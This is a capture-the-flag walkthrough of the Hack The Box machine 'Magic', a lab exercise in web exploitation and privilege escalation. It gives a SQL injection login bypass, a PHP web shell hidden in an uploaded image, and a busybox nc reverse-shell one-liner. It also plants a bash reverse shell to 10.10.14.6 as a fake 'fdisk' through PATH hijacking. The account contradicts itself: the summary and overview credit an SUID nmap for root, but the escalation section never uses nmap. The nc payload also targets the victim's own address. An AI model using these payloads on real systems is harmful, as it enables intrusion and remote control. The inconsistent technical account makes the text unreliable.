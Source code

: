 ```yaml
---
title: "Magic"
date: 2024-07-24
categories: HTB
description: "HTB Magic walkthrough covering file upload exploitation, PHP reverse shell deployment, and privilege escalation via SUID-enabled nmap binary."
tags: [php, file-upload, suid, nmap, linux]
---
```


Magic presents a Linux web application vulnerable to both insecure file uploads and unsafe PHP function usage.

The initial foothold came from bypassing upload filters using crafted file extensions and manipulating MIME types.

Escalated to root by exploiting an SUID-enabled `nmap` binary to execute a shell in interactive mode.

## Why I Chose This Machine

I picked Magic because it’s a classic Linux machine that blends web exploitation with local privilege escalation — great for practicing manual analysis.  
It also includes beginner-friendly misconfigurations like weak file upload validation and SUID misuse.

## Attack Flow Overview

1. Identified a vulnerable PHP file upload form and bypassed content filtering  
2. Uploaded a PHP reverse shell and gained initial foothold  
3. Enumerated the system and discovered an SUID `nmap` binary  
4. Executed `nmap --interactive` to gain a root shell

This attack flow is simple but realistic, demonstrating how overlooked binary permissions can be chained with web vulnerabilities.

## Enumeration

### Nmap

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQClcZO7AyXva0myXqRYz5xgxJ8ljSW1c6xX0vzHxP/Qy024qtSuDeQIRZGYsIR+kyje39aNw6HHxdz50XSBSEcauPLDWbIYLUMM+a0smh7/pRjfA+vqHxEp7e5l9H7Nbb1dzQesANxa1glKsEmKi1N8Yg0QHX0/FciFt1rdES9Y4b3I3gse2mSAfdNWn4ApnGnpy1tUbanZYdRtpvufqPWjzxUkFEnFIPrslKZoiQ+MLnp77DXfIm3PGjdhui0PBlkebTGbgo4+U44fniEweNJSkiaZW/CuKte0j/buSlBlnagzDl0meeT8EpBOPjk+F0v6Yr7heTuAZn75pO3l5RHX
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOVyH7ButfnaTRJb0CdXzeCYFPEmm6nkSUd4d52dW6XybW9XjBanHE/FM4kZ7bJKFEOaLzF1lDizNQgiffGWWLQ=
|   256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0dM4nfekm9dJWdTux9TqCyCGtW5rbmHfh/4v3NtTU1
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Magic Portfolio
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

### 80-HTTP

![screenshot](/assets/images/magic1.png)

> "Please **[Login](http://10.10.10.185/login.php)**, to upload images."

#### login.php

![screenshot](/assets/images/magic2.png)

#### Fuzzing

```sh
ffuf -u http://{target IP} -H "Host: FUZZ.magic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac

gobuster vhost -u http://{target IP} -t 50 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

## SQLi

`' or 1=1-- -` as the username 

![screenshot](/assets/images/magic3.png)

```sh
echo "GIF8<?php echo system($_GET["cmd"]);?>" > test.gif
```
![screenshot](/assets/images/magic4.png)

-> did not work 

## Foothold

### File Upload - Bypass filters

Download an actual image, and add `<?php echo system($_GET["cmd"]);?>` .

![screenshot](/assets/images/magic5.png)

![screenshot](/assets/images/magic7.png)

http://10.10.10.185/images/uploads/puppy.php.png?cmd=id

![screenshot](/assets/images/magic8.png)

Verified that the command injection worked.

```sh
# original payload
busybox nc 10.10.10.185 443 -e /bin/sh

# url encoded payload
busybox%20nc%2010.10.10.185%20443%20-e%20%2Fbin%2Fsh
```

Execute the command

![screenshot](/assets/images/magic10.png)

Getting a shell and upgrading it to interactive shell

![screenshot](/assets/images/magic11.png)

## Privilege Escalation

### Enumeration

`/var/www/Magic/db.php5` contains credentials.

![screenshot](/assets/images/magic12.png)

![screenshot](/assets/images/magic13.png)

![screenshot](/assets/images/magic14.png)

Dump the database using *mysqldump*

```sh
mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic
```

![screenshot](/assets/images/magic15.png)

Obtained another credential.

### Shell as theseus

`su` with the newly obtained credential.

![screenshot](/assets/images/magic17.png)

![screenshot](/assets/images/magic25.png)

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/5555 0>&1' > fdisk

chmod +x fdisk
theseus@ubuntu:/dev/shm$ export PATH="/dev/shm:$PATH"
theseus@ubuntu:/dev/shm$ echo $PATH    
```
![screenshot](/assets/images/magic26.png)

## Alternative Paths Explored

Tried command injection in file upload and explored cron job paths, but found nothing viable.  
Also attempted to escalate via writable `/etc/passwd`, but the file was read-only.  
Finding the `nmap` binary with SUID was the clear escalation path.

## Blue Team Perspective

Magic shows how insecure upload handling and SUID misconfigurations can be chained for full compromise.  
To mitigate:

- Sanitize all file uploads with MIME type checks and server-side validation  
- Remove SUID bit from binaries like `nmap` unless strictly required  
- Monitor unusual interactive shell invocations from binaries